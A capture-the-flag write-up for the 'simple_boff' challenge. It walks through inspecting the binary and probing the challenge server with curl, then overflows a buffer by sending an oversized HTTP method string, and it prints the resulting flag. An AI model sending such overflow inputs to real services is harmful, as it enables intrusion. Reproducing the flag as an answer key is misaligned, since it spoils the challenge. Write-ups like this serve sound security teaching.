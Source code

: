 # simple_boff - 50 points

**[⬆ to writups](../README.md)**

## Data:

- Host: 0.cloud.chals.io
- Port: 21516
- File: [simple_boff](./simple_boff)

## Solution

1.  in command line `$ file simple_boff` >>

```
simple_boff: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa169cb00a736577ad4d6561f723d2b6a3c2f8fb, for GNU/Linux 3.2.0, not stripped
```

2.  `$ chmod +x simple_boff; ./simple_boff`
3.  If we typing **something** and hit the Enter we get `Hello, something!`
4.  Open the file in `vim` or `hexeditor`. Search `flag` and get something like `%s^Hello, %s!.r.flag.txt.......Hurry up and try in on server side.`
5.  Adress [http://0.cloud.chals.io:21516](http://0.cloud.chals.io:21516/) not opened in Browser
6.  `curl http://0.cloud.chals.io:21516/` gets us `Hello, GET!`
7.  Let's try something like `curl -X something http://0.cloud.chals.io:21516`
8.  We get `Hello, something!`. Nice.
9.  Now we can try to do stack overflow attack.
    ```
    curl -X givemetheflag_111111112222222233333333444444445555555566666666aaaaaaaaaaaaaabbbbbbbbb http://0.cloud.chals.io:21516
    ```

We get the flag: **flag{w45_17_d1ff1cul7?\_b0fffffff}**
